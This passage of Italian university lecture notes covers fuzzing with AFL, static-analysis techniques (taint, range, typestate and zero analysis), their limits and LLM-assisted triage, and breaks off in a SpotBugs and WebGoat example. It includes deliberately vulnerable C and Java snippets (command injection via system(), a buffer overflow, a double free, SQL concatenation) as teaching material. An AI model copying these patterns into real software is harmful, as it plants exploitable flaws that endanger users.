lo ha scatenato (come, ad esempio, un \textit{Buffer Overflow}). 

Ma come fa il tool a misurare la "qualità" di un test in modo completamente automatico per decidere se 
un input è migliore di un altro? La metrica standard utilizzata è la \textbf{Code Coverage}. 
L'obiettivo primario del fuzzer è proprio quello di massimizzare questa metrica, 
esplorando percorsi di esecuzione sempre nuovi. Per sua natura logica, l'andamento 
della coverage nel tempo è descrivibile come una funzione monotona non decrescente: 
all'aumentare dei test eseguiti, la porzione di codice esplorata può solamente 
aumentare o, nel peggiore dei casi, restare invariata, ma non potrà mai diminuire. 

A livello tecnico, la misurazione della coverage non avviene quasi mai contando le 
singole righe di codice, bensì ragionando per \textbf{Code Block}. Un Code Block è una 
sequenza lineare di istruzioni indivisibili dal punto di vista del flusso di 
controllo: se il programma inizia a eseguire la prima istruzione del blocco, 
eseguirà necessariamente anche tutte le successive fino alla fine del blocco stesso.

Per tracciare il passaggio attraverso questi blocchi, il codice viene sottoposto a 
\textbf{strumentazione} (spesso tramite i sanitizer o il compilatore stesso). Un 
metodo implementativo classico consiste nel creare un array di $n$ posizioni (dove $n$ 
rappresenta il numero totale di Code Block del programma) inizializzato a \textit{False}. 
All'interno di ogni blocco viene iniettata una piccola istruzione di tracciamento: 
non appena il flusso di esecuzione attraversa quel blocco, la posizione 
corrispondente nell'array viene impostata su \textit{True}, segnalando al fuzzer che 
quella specifica porzione di codice è stata coperta con successo.

\textbf{Classificazione dei Fuzzer}

\begin{itemize}
    \item \textbf{Black-box}: Nessuna conoscenza interna; si basano solo su input e output/crash.
    \item \textbf{Grey-box}: Raccolgono informazioni limitate sulla struttura del programma (come la copertura di istruzioni e rami) tramite analisi statica leggera e strumentazione.
    \item \textbf{White-box}: Analizzano profondamente la struttura interna (esecuzione simbolica, taint analysis), ma sono computazionalmente pesanti.
\end{itemize}

\subsection{American Fuzzy Lop (AFL)}

AFL è il fuzzer grey-box guidato dalla copertura per eccellenza. Richiede un 
programma target eseguibile e funziona modificando file in input per esplorare nuovi 
percorsi di esecuzione.

Per comprendere la potenza di tale fuzzer riportiamo un esempio che riguarda un parser JPEG:
il file di input iniziale è un semplice file di testo contenente la parola "hello", tuttavia,
AFL essendo guidato dalla copertura capisce che modificando il primo byte in \textit{0xFF}, il 
parser JPEG esegue un ramo di codice diverso. Successivamente, AFL indovina \textit{0xFF 0xD8}
(cioè l'header valido di un JPEG) e, nel giro di 1-2 giorni di esecuzione su 4 core,
riesce a generare un'immagine JPEG strutturalmente valida esclusivamente mutando la 
parola "hello" e osservando il feedback del programma.

\textbf{Flusso di lavoro con AFL}

\textbf{1. Preparazione e Strumentazione del codice}: Il primo passo consiste nel 
ricompilare il codice sorgente del programma bersaglio. Non si utilizza un 
compilatore standard, bensì un wrapper fornito dal tool stesso, come \textit{afl-gcc}. 
Questo passaggio è cruciale perché inietta nel codice binario la "strumentazione" 
necessaria per misurare la code coverage durante l'esecuzione. Inoltre, per 
facilitare l'individuazione di vulnerabilità legate alla memoria, è prassi comune 
abilitare \textbf{AddressSanitizer} passando la variabile d'ambiente \textit{AFL\_USE\_ASAN=1} 
durante la compilazione.

\textbf{2. Configurazione e Avvio}: Una volta ottenuto l'eseguibile strumentato, si 
raccolgono degli input validi di partenza (i seed) e li si inserisce in una cartella 
dedicata. L'esecuzione del fuzzer si avvia con un comando dalla struttura simile a 
questa:
\begin{gather*}
    \text{afl-fuzz -m none -i <input\_dir> -o <output\_dir> -- ./eseguibile @@}
\end{gather*}

Analizzando i parametri:

\begin{itemize}
    \item \textbf{-m none}: disabilita i limiti di memoria imposti da AFL al programma testato.
    \item \textbf{-i} e \textbf{-o}: indicano rispettivamente le cartelle contenenti i seed di input e dove verranno salvati gli output/crash.
    \item \textbf{@@}: è un segnaposto che indica ad AFL dove inserire il percorso del file temporaneo generato ad ogni iterazione, che verrà passato come input al programma.
\end{itemize}

\textbf{3. Il Motore di Mutazione}: AFL prende i seed iniziali, li inserisce in una 
coda e, ciclicamente, applica diverse strategie di mutazione per generare nuovi input. 
Tra le tecniche principali troviamo:

\begin{itemize}
    \item \textbf{Bit/Byte flip}: inversione mirata di singoli bit o byte.
    \item \textbf{Simple arithmetics}: banali addizioni o sottrazioni sui valori esadecimali.
    \item \textbf{Known integers}: inserimento di valori limite noti per causare errori (es. 0, -1, interi massimi).
    \item \textbf{Splicing}: operazione di crossover che combina frammenti di due input diversi.
    \item \textbf{Stacked}: applicazione combinata e in cascata di più mutazioni.
\end{itemize}

\textbf{4. Misurazione della Fitness}: Ad ogni esecuzione, AFL valuta la qualità 
dell'input generato (la sua fitness) basandosi sulla \textbf{Branch Coverage} 
(copertura dei rami). A differenza della semplice copertura delle singole linee di 
codice, la branch coverage traccia gli archi attraversati nel Control Flow Graph del 
programma. Questa scelta non è casuale: l'esperienza dimostra che le vulnerabilità 
si annidano spesso in stati di transizione imprevisti o mal gestiti.

Per tenere traccia del percorso, AFL utilizza una \textbf{Hit Counter Bitmap} (un 
vettore di bit). Quando il flusso di esecuzione attraversa un determinato "ramo", la 
posizione corrispondente nella bitmap viene segnata come "toccata". Se un input 
appena mutato tocca una parte del grafo che non era mai stata esplorata prima, 
l'input viene considerato "interessante" e viene reinserito nella coda per subire 
ulteriori mutazioni, guidando così l'evoluzione del testing verso percorsi sempre 
più profondi.

\textbf{5. Gestione dei Crash e Deduplicazione}: Se un input causa un crash 
dell'applicativo, questo non viene scartato, ma viene salvato nella sottocartella 
\textit{crashes} all'interno della directory di output. Per ogni crash salvato, AFL 
registra un identificativo, un timestamp e la specifica catena di mutazioni che lo 
ha generato.

È fondamentale sottolineare che \textbf{il numero di crash rilevati non equivale al numero 
di vulnerabilità effettive}. Per limitare il rumore, AFL esegue una deduplicazione 
automatica: confronta la bitmap del nuovo crash con quelle dei crash precedenti. Se 
il nuovo input anomalo ha percorso esattamente gli stessi branch (stessa bitmap) di 
un crash già noto, AFL deduce che la vulnerabilità sottostante sia la medesima e lo 
considera ridondante, evitando di salvarlo come un nuovo unicum.

Infine, per capire l'esatta natura della vulnerabilità scovata, i file salvati nella 
cartella \textit{crashes} vengono presi e dati in pasto all'eseguibile (idealmente 
compilato con ASAN) al di fuori del fuzzer, oppure analizzati passo-passo tramite un 
debugger come \textbf{GDB}.
\chapter{Analisi Statica}

L'obiettivo generale della sicurezza del software è prevenire, rilevare e mitigare le 
vulnerabilità. L'analisi del codice (sia sorgente che eseguibile) è fondamentale per 
questo scopo:

\begin{itemize}
    \item \textbf{Analisi Dinamica}: Verifica il software eseguendolo con specifici input.
    Esempi di analisi dinamica sono il Testing Funzionale, i Web Application scanner, il
    Fuzzing e il DAST. Il limite intrinseco è che può certificare la sicurezza solo 
    dei percorsi di esecuzione (path) che vengono effettivamente esplorati durante i 
    test.
    \item \textbf{Analisi Statica}: Verifica il software senza eseguirlo, "leggendo" 
    il codice sorgente o binario. Esempi di analisi statica sono: le Code Reviews, le 
    Code Inspection e il SAST. Ha il vantaggio di poter coprire teoricamente tutti i 
    percorsi di esecuzione, inclusi i casi limite o il codice "morto", ma può 
    essere soggetta a imprecisioni generando dei falsi positivi o falsi negativi.
\end{itemize}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.9\linewidth]{img/capitolo7/lifecycle.png}
    \label{fig:lifecycle}
\end{figure}

Dalla figura soprastante vediamo che l'analisi statica si posiziona all'interno del 
ciclo di vita della sviluppo del software sicuro fin dalle prime fasi: iniziata la 
stesura del codice del software si combina l'ispezione umana con strumenti automatizzati 
al fine di condurre un'analisi statica di qualità. Questo dimostra che l'analisi 
statica non è una soluzione isolata, ma un componente integrante (idealmente durante 
la fase di codifica) di un approccio metodico alla sicurezza.

Sebbene l'analisi statica manuale sia potenzialmente efficace, tale analisi risulta 
essere purtroppo anche costosa, difficile e soggetta ad errori, ecco perché è importante 
combinare l'ispezione umana con strumenti automatizzati. I tool di analisi statica 
servono a rendere la revisione del codice più veloce e fruttuosa; essi identificano 
potenziali problemi che devono poi essere ulteriormente revisionati dagli sviluppatori.

\section{Tecniche di Base}

\textbf{Type Checking}

Il primo analizzatore statico che un programmatore incontra è il compilatore. 
Linguaggi fortemente tipizzati (Java, C\#) prevengono intere classi di vulnerabilità 
a compile-time, mentre C/C++ sono molto più permissivi. In C infatti è possibile 
ad esempio assegnare una variabile di tipo \textit{int} a una di tipo \textit{short}:

\begin{lstlisting}
int i = ...;
short s = i;
\end{lstlisting}

In C questo è possibile poiché esso lo permette tramite una \textbf{conversione implicita}, mentre 
in Java questo genera un errore di tipi incompatibili.

\textbf{Compiler Warnings}

L'attivazione di avvisi estesi nel compilatore o interprete fin dalle prime fasi di 
sviluppo può prevenire difetti di sicurezza. L'aggiunta dell'opzione \textit{-Wconversion}
nel compilatore gcc ci avrebbe avvisati della conversione implicita vista prima:
\begin{gather*}
    \text{\$ gcc -Wconversion test.c}
\end{gather*}

Esempio del "\textbf{goto fail}" di Apple iOS: questo bug nel codice dell'OS Apple 
riguardava l'implementazione del protocollo TLS/SSL.

\begin{lstlisting}
if ((err = SSLHashSHA1.update(&hashCtx, &signedParams)) != 0)
    goto fail;
    goto fail;  //Eseguito incondizionatamente!
err = sslRawVerify(...) //DEAD CODE
\end{lstlisting}

In C, l'assenza di parentesi graffe nell'istruzione if fa sì che solo la prima 
istruzione \textit{goto fail;} sia condizionata, la seconda istruzione \textit{goto fail;} 
viene sempre eseguita. A livello di sistema, questo fa saltare del tutto il controllo 
crittografico critico \textit{sslRawVerify}; se un attaccante esegue un attacco 
\textit{Man-In-The-Middle} e invia una firma non valida, i controlli precedenti non falliscono 
(err == 0), il codice salta all'etichetta \textit{fail}, e la funzione restituisce 
err (che è 0, ovvero "Successo"). L'attaccante ha così bypassato l'autenticazione.
Un semplice warning del compilatore come \textit{-Wunreachable-code} o \textit{-Wimplicit-fallthrough} 
avrebbe rilevato il codice morto successivo al goto.

\textbf{Style Checkers, Defect Finders e Quality Scanners}

Strumenti come \textbf{PMD} (per il codice sorgente Java) o \textbf{FindBugs} (per il 
bytecode) confrontano il codice con regole predefinite per identificare difetti di 
stile o di qualità strutturale. Ad esempio l'uso dell'operatore "\textit{==}" per 
confrontare due stringhe in Java invece del metodo corretto \textit{x.equals(y)} è un 
errore classico rilevato da questi strumenti. Anche se si concentrano sulla qualità 
generale piuttosto che sulla sicurezza, risolvere questi difetti facilita il lavoro 
degli scanner di sicurezza.

\textbf{Security Defect Text Scanners}

Sono strumenti che funzionano in modo simile al comando \textit{grep}, analizzando 
il testo del codice tramite un lexer molto semplice. Cercano chiamate a funzioni note 
per essere insicure, come copie di stringhe non sicure, generatori di numeri casuali 
deboli o API crittografiche deprecate. Ad esempio l'uso del tool \textit{Flawfinder}
permette di individuare chiamate alla funzione \textit{strncat}, la quale, pur essendo
spesso considerata sicura, viene facilmente usata in modo scorretto portando a 
vulnerabilità.

\section{Tecniche Avanzate e Modellazione}

La pulizia del codice attraverso strumenti di base visti prima è una fase propedeutica 
cruciale. Rimuovere difetti generici e di stile semplifica l'analisi per gli 
strumenti orientati prettamente alla sicurezza, riducendo l'incidenza di falsi 
risultati. I \textit{text scanner}, sebbene siano molto veloci e possano processare 
anche codice parziale o non compilabile, mancano di comprensione del contesto e 
generano molti falsi allarmi, evidenziando il limite delle tecniche di base e 
aprendo la strada a strumenti di analisi più sofisticati.

Gli analizzatori statici avanzati (noti come \textit{Security Defect Finders}) non si 
limitano a cercare parole chiave nel testo come un semplice grep. Essi creano un 
modello interno del programma e analizzano le proprietà di sicurezza su di esso. 
Sebbene richiedano tempi di compilazione più lunghi, offrono un'analisi molto più 
potente e accurata.

\subsection{Modellazione}

Per analizzare il codice profondamente, gli strumenti lo trasformano in strutture 
dati complesse (rappresentazioni intermedie). Le principali sono:

\textbf{Abstract Syntax Tree (AST)}

È la struttura dati fondamentale usata dai compilatori e dagli analizzatori. 
Rappresenta la struttura sintattica del programma ad albero:

\begin{itemize}
    \item \textit{Nodi}: Rappresentano gli elementi del programma (es. dichiarazioni, assegnazioni, espressioni matematiche).
    \item \textit{Archi}: Collegano gli elementi ai loro sotto-elementi (es. un nodo di assegnazione avrà due figli: il valore a destra e la variabile a sinistra).
\end{itemize}

\begin{lstlisting}
int homer(int x){
    int y, a, b;
    if(x>0){
        y = 0;
    } else{
        a = bart(1);
        b = lisa(2);
        y = a + b;
    }
    return y;
}
\end{lstlisting}

Nell'esempio riportato l'AST del metodo \textbf{homer} sarà così composto:

\begin{itemize}
    \item 1 nodo radice per la dichiarazione del metodo \textbf{homer}.
    \item 4 nodi figli per il \textit{return type (int)}, \textit{method name (homer)},
    dichiarazione delle variabili in input \textit{(int x)} e il corpo del metodo.
    \item 3 nodi figli aventi come genitore il nodo che rappresenta il corpo del metodo;
    i nodi figli in particolare denotano la dichiarazione di variabili \textit{(int y, a, b)},
    una condizione if \textit{(if(x>0) then ... else ...)} e un \textit{return (return y)}.
    \item La costruzione dell'albero continua ricorsivamente...
\end{itemize}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\linewidth]{img/capitolo7/ast.png}
    \label{fig:ast}
\end{figure}

\textbf{Grafi Avanzati}

Partendo dall'AST, vengono generati grafi più sofisticati per capire come i dati e le 
istruzioni si muovono:

\begin{itemize}
    \item \textbf{Control Flow Graph (CFG)}: Rappresenta i percorsi di esecuzione del 
    programma (i blocchi di codice e i rami come if/else).
    \item \textbf{Call Graph}: Mostra quali funzioni chiamano quali altre funzioni 
    (es. \textit{main} chiama \textit{homer}, che a sua volta chiama \textit{bart} e \textit{lisa}).
    \item \textbf{Program Dependency Graph (PDG)}: Mappa le dipendenze dei dati (es. 
    dove una variabile viene scritta e dove viene letta) e del controllo.
\end{itemize}

\begin{figure}[H]

\begin{subfigure}{0.5\textwidth}

\includegraphics[width=0.9\linewidth]{img/capitolo7/cfg.png} 
\caption{CFG}
\label{fig:CFG}
\end{subfigure}
\begin{subfigure}{0.5\textwidth}

\includegraphics[width=0.9\linewidth]{img/capitolo7/call.png}
\caption{Call Graph}
\label{fig:CallGraph}
\end{subfigure}
\begin{subfigure}{0.5\textwidth}

\includegraphics[width=0.9\linewidth]{img/capitolo7/pdg.png}
\caption{PDG}
\label{fig:PDG}
\end{subfigure}
\label{fig:grafi}
\end{figure}

\subsection{Tipologie di Analisi di Sicurezza Avanzata}

Basandosi su questi modelli, gli analizzatori possono eseguire controlli sofisticati:

\textbf{Taint Propagation Analysis}

È una forma di analisi del flusso di dati che traccia il percorso delle informazioni 
da fonti non attendibili ("\textit{Sources}") fino a funzioni critiche per la sicurezza 
("\textit{Sinks}").

\begin{lstlisting}
                               (*@$\downarrow$@*)//Source                     
if( fgets(buf, sizeof(buf), stdin) == buf ) {
    strcpy( other, buf );
    system( other );
}             (*@$\uparrow$@*)//Sink
\end{lstlisting}

Nell'esempio riportato sopra, un input utente viene letto tramite \textit{fgets} e 
inserito nella variabile \textit{buf} (\textbf{Source}, il dato diventa "tainted", 
ovvero "sporco/infetto"). Il dato poi viene passato ad un'altra variabile \textit{other}
tramite la funzione \textit{strcpy}. Infine, la variabile \textit{other} viene passata
alla funzione \textit{system()} (\textbf{Sink}); l'analizzatore collega questi punti 
e segnala una vulnerabilità di "\textit{OS command injection}".

\textbf{Range Analysis}

Verifica l'intervallo di valori potenziali che una variabile può assumere. È 
fondamentale per prevenire i Buffer Overflow.

\begin{lstlisting}
char buf[10];
strcpy(buf, "hello");
strcat(buf, "world!");
\end{lstlisting}

Compilando il codice soprastante con l'opzione \textit{-fanalyze} otteniamo un warning
di \textit{stack-based buffer overflow}, questo perché il compilatore sa che \textit{buf} ha 
una capacità di 10 byte sullo stack. La funzione \textit{strcpy} scrive 6 byte (hello$\backslash$0),
successivamente la funzione \textit{strcat} concatena 7 byte (world!$\backslash$0)
sovrascrivendo a partire dal terminatore. Il totale è quindi 12 caratteri + 1 terminatore 
= 13 byte, l'analizzatore statico calcola queste dimensioni a compile-time e segnala 
il CWE-121 (Buffer Overflow).

\textbf{Type State Analysis}

Verifica che le operazioni eseguite su un oggetto rispettino un "protocollo" o una 
specifica macchina a stati (es. inizializzato $\rightarrow$ usato $\rightarrow$ liberato).

\begin{lstlisting}
while ((node = *ref) != NULL) {
    *ref = node->next;
    free(node); //L'oggetto passa allo stato "freed"
    // ERRORE: Manca "node = NULL;"
    if (!unchain(ref)) {
        goto ERROR;
    }
}
ERROR:
if (node != NULL) {
    free(node); // Vulnerabilita: Double free!
    return UNCHAIN_FAIL;
}
\end{lstlisting}

Nell'esempio riportato il puntatore \textit{node} viene passato a \textit{free()}, lo 
stato dell'oggetto diventa "\textbf{freed}". Tuttavia, il puntatore \textit{node} non 
viene impostato a \textit{NULL}. Se la funzione \textit{unchain} fallisce, il codice 
salta all'etichetta \textit{ERROR}. Qui, il controllo \textit{node != NULL} risulta 
ancora vero e viene invocata nuovamente \textit{free(node)}. L'analizzatore, seguendo 
la macchina a stati, capisce che il nodo era già nello stato "\textbf{freed}" e segnala una 
vulnerabilità di "\textit{Double Free}".

\section{Astrazione e Zero Analysis}

Per analizzare in modo esaustivo un programma, un analizzatore statico non può 
semplicemente simulare l'esecuzione tenendo traccia di ogni singolo valore esatto 
che una variabile può assumere. Le combinazioni possibili (lo spazio degli stati) 
sarebbero pressoché infinite, e l'analisi richiederebbe secoli. La soluzione a questo 
problema è l'\textbf{Astrazione}.

L'astrazione è il processo attraverso il quale l'analizzatore statico "semplifica" 
la realtà del programma. Invece di tracciare i valori esatti (\textit{concrete domain}), 
l'analizzatore mappa i dati su un dominio semplificato (\textit{abstract domain}), 
concentrandosi solo sulle proprietà che gli interessano per trovare specifici bug.
Se ad esempio abbiamo una variabile intera $n$, invece di chiederci il valore esatto di
$n$, l'analizzatore si chiede il segno di $n$. Il dominio astratto diventa quindi semplicemente:
\{Positivo, Negativo, Zero, Sconosciuto\}. Questo espediente riduce drasticamente i 
calcoli necessari, permettendo allo strumento di analizzare milioni di righe di 
codice in tempi ragionevoli.

La \textbf{Zero Analysis} è l'esempio per eccellenza dell'uso dell'astrazione. Il 
suo obiettivo è prevenire una vulnerabilità classica che causa il crash del programma: 
la \textbf{divisione per zero}. Nell'astrazione della Zero Analysis, ogni variabile 
numerica viene etichettata con uno di questi stati astratti:

\begin{itemize}
    \item \textbf{Z (Zero)}: Il valore è sicuramente nullo.
    \item \textbf{NZ (Non-Zero)}: Il valore è sicuramente diverso da zero.
    \item \textbf{T (Sconosciuto)}: Il tool non sa se il valore sia zero o meno.
\end{itemize}

\begin{lstlisting}
int y = getUserInput();    // L'analizzatore etichetta 'y' come 'T' 
int x = 10;                // L'analizzatore etichetta 'x' come 'NZ' 
if (y != 0) {
    // In questo blocco, l'analizzatore AGGIORNA lo stato di 'y' a 'NZ'
    int result = x / y;    // Operazione: NZ / NZ. Risultato: SICURO 
} else {
    // In questo blocco, l'analizzatore AGGIORNA lo stato di 'y' a 'Z'
    int result = x / y;    // Operazione: NZ / Z. Risultato: VULNERABILITA RILEVATA!
}
int z = x / y;            // Fuori dall'if, 'y' torna a essere 'T'. 
                          // Operazione: NZ / T. Risultato: WARNING (Possibile divisione per zero)
\end{lstlisting}

L'astrazione ha un prezzo: semplificando i dati, l'analizzatore perde informazioni. 
Quando l'analizzatore perde troppe informazioni, le variabili finiscono nello stato 
\textbf{T} (Sconosciuto). Quando un analizzatore vede un'operazione critica (come una 
divisione) con una variabile in stato \textbf{T}, per motivi di sicurezza genererà un 
avviso (\textit{Warning}). Se nella realtà dell'esecuzione quel valore non sarebbe 
mai stato zero, l'analizzatore ha appena generato un \textbf{Falso Positivo}.
Più il dominio astratto è semplice, più l'analisi è veloce, ma genererà moltissimi 
falsi positivi. Più il dominio astratto è complesso (tracciando relazioni matematiche 
precise), più l'analisi sarà accurata, ma rischierà di esaurire la memoria o il 
tempo a disposizione.

Vulnerabilità come le divisioni per zero o la dereferenziazione di puntatori nulli, 
che usa la stessa esatta logica della Zero Analysis: puntatore \textbf{Null}, 
\textbf{Non-Null} o \textbf{T}, possono essere sfruttate dagli attaccanti per 
causare attacchi di tipo \textit{Denial of Service} (DoS), facendo crashare 
deliberatamente le applicazioni.

\section{Limiti Teorici e Pratici}

L'analisi statica è sempre soggetta a imperfezioni, essa produce \textbf{falsi allarmi} 
e, soprattutto, genera \textbf{errori mancati} (vulnerabilità reali che lo strumento 
non "vede"). Una regola d'oro della sicurezza è che l'assenza di errori riportati non 
significa che il codice sia privo di errori. Queste imperfezioni sono causate da due 
grandi categorie di problemi:

\textbf{1. Limiti Pratici (Scalabilità e Complessità)}

Analizzare a fondo un software reale richiede una quantità enorme di memoria e 
potenza di calcolo; l'analisi \textit{Intra-procedurale}, che valuta una singola 
funzione isolata, è veloce ma cieca rispetto a ciò che accade fuori da essa. L'analisi 
\textit{Inter-procedurale}, che traccia il flusso di dati tra funzioni diverse, è 
estremamente difficile da scalare su milioni di righe di codice. 

Per far sì che un'analisi termini in tempi ragionevoli, gli analizzatori devono usare 
delle approssimazioni, ignorando in parte il contesto di esecuzione o l'ordine delle 
istruzioni, tramite approcci \textit{Context-insensitive} o \textit{Flow-insensitive}.
Precisione, profondità e scalabilità non possono essere massimizzate contemporaneamente:

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\linewidth]{img/capitolo7/limiti.png}
    \label{fig:limiti}
\end{figure}

\textbf{2. Limiti Teorici}

L'analisi statica è \textbf{matematicamente indecidibile}: non esiste e non può 
esistere un algoritmo capace di analizzare \textit{tutti} i possibili programmi, con 
\textit{tutti} i possibili input, prevedendone il comportamento in un tempo finito.
Questo limite deriva direttamente dal teorema di Turing; risolvere perfettamente 
l'analisi statica equivarrebbe a risolvere il \textbf{Problema della Fermata} 
(\textit{Halting Problem}), cosa matematicamente impossibile.

Visto che l'analisi statica perfetta non esiste, per renderla utile dobbiamo 
accettare dei compromessi: rilassiamo gli obiettivi accettando che gli strumenti 
approssimino la realtà. Comprendiamo dunque che un tool di SAST non garantisce la sicurezza
assoluta; è necessario allora abbracciare l'approccio di \textbf{Defense in Depth} 
affiancando all'analisi statica i test dinamici (DAST), revisioni manuali (Code Review)
e test di penetrazione.

\section{Analisi statica e gli LLM}

Gli analizzatori statici tradizionali sono ottimi per tracciare flussi di dati e 
trovare vulnerabilità note, ma sono ciechi rispetto al contesto; non sanno a cosa 
serve il programma, chi dovrebbe usarlo e quali sono le regole di business.

Gli LLM sono in grado di incorporare e comprendere un contesto molto più ampio. 
Possono analizzare:

\begin{itemize}
    \item \textbf{L'uso previsto}: Capire \textit{cosa} dovrebbe fare un componente.
    \item \textbf{Modello di controllo degli accessi}: Capire \textit{chi} ha i permessi per fare cosa.
    \item \textbf{Threat Modeling}: Capire da \textit{dove} provengono gli input non attendibili
    e quali sono i reali confini di sicurezza dell'applicazione.
\end{itemize}

Questo rende gli LLM eccezionali per trovare vulnerabilità nella \textbf{Business Logic}, 
ovvero difetti che non derivano da un errore di sintassi o da una funzione non sicura, 
ma da un errore concettuale nella progettazione del software.

Gli analizzatori statici generano moltissimi Falsi Positivi, spesso questo accade 
perché l'analizzatore non riconosce una funzione di sanitizzazione personalizzata 
o perché un percorso di codice è teoricamente vulnerabile ma praticamente 
irraggiungibile da un attaccante. In questo scenario gli LLM vengono allora usati per 
fare il \textbf{Triage} degli avvisi: ad esempio un LLM può analizzare un alert per 
una vulnerabilità XSS; leggendo il codice, l'LLM capisce che la variabile \textit{redirectUrl}
viene accuratamente validata prima dell'uso tramite una funzione che controlla 
\textit{hostname}, \textit{protocol} e \textit{pathname}. L'LLM chiude l'alert classificandolo 
correttamente come \textbf{False Positive}.

Gli LLM sono in grado di condurre un'analisi statica autonoma divisa in fasi:

\begin{enumerate}
    \item \textbf{Context Gathering}: L'agente mappa l'applicazione identificando 
    componenti, entry point e azioni degli utenti, salvando tutto in un database.
    \item \textbf{Issue Suggestion}: Basandosi sul contesto raccolto e sui file come 
    \textit{README.md}, l'LLM ipotizza quali potrebbero essere i rischi principali 
    per quel tipo specifico di app (es. un pannello di admin è a rischio XSS o CSRF).
    \item \textbf{Issue Audit}: L'LLM controlla effettivamente il codice sorgente 
    per verificare se le vulnerabilità ipotizzate esistono davvero, assicurandosi 
    che lo scenario di attacco sia realistico e non richieda privilegi di 
    amministratore preesistenti.
    \item \textbf{Filtering}: L'IA filtra ed elimina i risultati a bassa severità 
    per presentare all'utente solo i problemi critici.
\end{enumerate}

Nonostante le enormi potenzialità, l'uso degli LLM presenta ancora ostacoli 
significativi: analizzare un'intera codebase con un LLM è ordini di grandezza più 
\textbf{lento e costoso} rispetto ad un tool SAST tradizionale. Altro limite è dato 
dal \textbf{numero di token} (righe di codice) che essi possono ricordare e analizzare contemporaneamente;
programmi molto estesi devono essere perciò frammentati. Infine l'IA sappiamo che 
può essere soggetta ad \textbf{allucinazioni e non-determinismo} inventando potenzialmente 
vulnerabilità inesistenti o rispondendo in modo differente alla stessa domanda.

\section{Tool per l'Analisi Statica}

In questa sezione vediamo le metodologie e due tool avanzati per l'Analisi Statica del 
codice sorgente, con un focus specifico sugli ecosistemi Java. Gli strumenti che trattiamo
sono: \textbf{FindBugs} che, tramite il plugin \textit{Find Security Bugs}, permette 
il rilevamento di pattern vulnerabili noti e \textbf{GitHub CodeQL}, una piattaforma 
semantica che tratta il codice come un database relazionale (sotto forma di Abstract
Syntax Tree) interrogabile tramite delle query per individuare \textit{dataflow} e
\textit{taint propagation}.

\subsection{FindBugs}

\textbf{SpotBugs} (evoluzione di \textbf{FindBugs}) è un analizzatore statico che ispeziona il 
bytecode Java alla ricerca di anti-pattern. L'estensione \textit{Find Security Bugs} 
lo specializza nell'auditing di sicurezza per applicazioni web, rilevando tipologie 
di attacco come \textit{SQL/Command Injection}, \textit{Cross-Site Scripting (XSS)}, 
uso errato di API crittografiche e deserializzazione insicura.

Esempio con \textit{WebGoat}: \textbf{WebGoat} è un'app volutamente vulnerabile usata 
in ambito didattico; in questo esempio vediamo come FindBugs ci può assistere nel 
rilevamento del codice vulnerabile:

\begin{lstlisting}
String query = "SELECT * FROM employee WHERE userid = " + subjectUserId;
Statement answer_statement = WebSession.getConnection(s).createStatement(...);
ResultSet answer_results = answer_statement.executeQuery(query);
\end{lstlisting}

Il codice concatena direttamente l'input utente \textit{subjectUserId} all'interno 
